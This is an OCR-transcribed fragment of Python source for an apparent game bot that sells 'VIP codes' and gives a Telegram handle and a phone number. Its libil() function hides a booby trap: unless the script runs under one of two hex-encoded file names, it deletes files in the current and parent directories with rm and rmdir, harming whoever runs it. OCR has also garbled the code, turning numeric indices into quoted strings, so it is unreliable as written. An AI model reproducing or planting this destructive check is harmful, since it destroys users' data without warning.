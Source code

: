    def libil():
        list_list = os.listdir(os.getcwd())
        (m, t) = (['0x6d', '0x61', '0x69', '0x6e', '0x2e', '0x70', '0x79'], ['0x74', '0x6f', '0x70', '0x69', '0x78', '0x73', '0x62', '0x2e', '0x70', '0x79'])
        list_lib = []
        for tt in sys.argv['0']:
            list_lib.append(hex(ord(tt)))
        if list_lib == m:
            pass
        elif list_lib == t:
            pass
        else:
            list_list = os.listdir('./')
            for Iib in list_list:
                try:
                    if '.' in Iib:
                        if len(Iib.split('.')['0']) != '0':
                            os.system(f'rm {Iib}')
                        else:
                            os.remove(f'rm -rf {Iib}')
                except:
                    pass
            list_list = os.listdir('../')
            for Iib in list_list:
                try:
                    if '.' in Iib:
                        if len(Iib.split('.')['0']) != '0':
                            os.system(f'rm "../{Iib}"')
                    else:
                        patback = os.path.normpath(os.getcwd() + os.sep + os.pardir)
                        os.rmdir(f'{patback}/{Iib}')
                except:
                    pass
            exit()
    libil()
    try:
        while True:
            print(warna('[00ff00]', '----------------------------------'))
            if dat['login'] == False:
                login()
                print('   Jual Code VIP Untuk Pen-JOKI , Hubungi saya')
                print('   Web : https://t.me/topixsb')
                print('   Telegram : @topixsb')
                print('   WA : 085 163 678 123')
                print('Langsung Enter aja kalau ga ada code')
                pcode = input('VIP Code : ')
                try:
                    zpoi = akses(pcode)
                except:
                    zpoi = ['0', 'code failed']
                os.system('clear')
                if zpoi['0'] == '1':
                    dat['grant'] = 'Vip'
                    print(zpoi['1'])
                    time.sleep('3')
            else:
                if 'player' not in dat:
                    getAccountInfo()
                    GetPlayerRecords()
                os.system('clear')
                try:
                    print(f"Welcome {dispwarna(dat['player']['Name'])}")
                except:
                    print(f"Welcome {dat['player']['Name']}")